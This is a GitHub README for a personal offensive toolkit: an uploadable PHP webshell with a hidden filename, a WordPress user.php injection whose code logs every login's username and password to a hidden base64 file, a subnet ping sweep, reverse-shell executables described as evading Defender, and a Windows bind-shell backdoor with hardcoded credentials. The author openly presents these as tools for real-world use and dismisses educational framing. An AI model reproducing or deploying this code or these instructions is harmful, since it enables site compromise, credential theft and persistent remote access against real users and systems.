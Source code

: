 # JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh
Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited shell or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Will compile in stealth mode (running in background) if I has to use in real world. Connect via ncat
```
nc <target> 8282
```
